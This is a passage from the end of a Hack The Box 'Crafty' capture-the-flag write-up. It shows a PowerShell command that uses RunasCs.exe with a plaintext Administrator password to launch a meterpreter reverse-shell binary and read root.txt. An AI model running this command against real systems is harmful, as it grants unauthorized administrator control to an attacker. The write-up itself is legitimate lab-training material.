 - Finally, the pentester executed `RunasCs.exe` to receive a reverse shell in `meterpreter` and then read `root.txt`.

```powershell
C:\users\svc_minecraft\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c start C:\users\public\revshell\revshmet.exe"
```

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613225747.png)

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613230648.png)

>Comments: It's interesting to know that `meterpreter` is a shell approximation that uses `Shellwords`, which is why it's necessary to use double quotes or single quotes to execute commands. [Source](https://github.com/rapid7/metasploit-framework/issues/10701)
 {: .prompt-info }

>I hope you had as much fun reading this write up as I did writing it. If this writeup helped you, please feel free to go to my [`Hack The Box profile (xpnt)`](https://app.hackthebox.com/users/1504363) and give me a respect 😁. Happy Hacking!!👾
{: .prompt-tip }